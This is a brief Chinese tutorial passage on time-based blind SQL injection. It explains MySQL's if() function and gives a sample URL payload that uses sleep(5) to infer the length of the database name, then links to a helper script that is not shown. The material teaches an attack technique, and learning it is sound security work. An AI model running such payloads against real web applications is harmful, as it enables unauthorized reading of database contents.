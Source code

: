 同 布尔盲注一样，使用if， 将第二个参数改成sleep(5)（延时5秒），第三个参数可以直接用1

> if(expr1,expr2,expr3)
> expr1 的值为 TRUE，则返回值为 expr2 
> expr1 的值为 FALSE，则返回值为 expr3

```
?id=1 and if(length(database())>10,sleep(5),1)#
```

脚本：

[time_based_injection.py](../python-scripts/time_based_injection.py)


